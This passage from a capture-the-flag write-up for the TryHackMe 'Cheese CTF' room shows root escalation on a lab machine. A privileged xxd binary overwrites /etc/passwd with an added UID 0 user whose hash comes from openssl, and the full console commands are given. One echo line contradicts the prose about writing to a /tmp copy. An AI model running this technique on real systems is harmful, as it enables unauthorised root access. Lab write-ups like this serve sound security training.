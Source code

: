But that is not enough, I need to actually get a root shell. To do this, we can use `echo <data> | /opt/xxd | /opt/xxd -r - <destination_file>` to write to any file as root.

All we have to do now is generate a password hash using `openssl` and modify the `/etc/passwd` file to add a new user with the newly created hash and the `UID 0` to login with that user and get a root shell.

Here I made a copy of the `/etc/passwd` file and added my new user to it. This is just to not overwrite the entire `/etc/passwd` and having to restart the machine in case anything goes wrong.
```console
comte@cheesectf:/etc/systemd/system$ openssl passwd m3ga
6uZ4TDRQuTZxo
comte@cheesectf:/etc/systemd/system$ cat /etc/passwd > /tmp/passwd
comte@cheesectf:/etc/systemd/system$ echo 'm3ga:6uZ4TDRQuTZxo:0:0:root:/root:/bin/bash' >> /etc/passwd
comte@cheesectf:/etc/systemd/system$ cat /tmp/passwd | /opt/xxd | /opt/xxd -r - /etc/passwd
comte@cheesectf:/etc/systemd/system$ su m3ga
Password: m3ga
root@cheesectf:/etc/systemd/system# id
uid=0(root) gid=0(root) groups=0(root)
```

## Outro
Many thanks to the creators of this room: [VainXploits](https://tryhackme.com/p/VainXploits) & [shadowabsorber](https://tryhackme.com/p/shadowabsorber)

It was overall a great room and it taught me that it is possible to execute php code with LFI vulnerabilities if certain filters are on.

\- m3gakr4nus
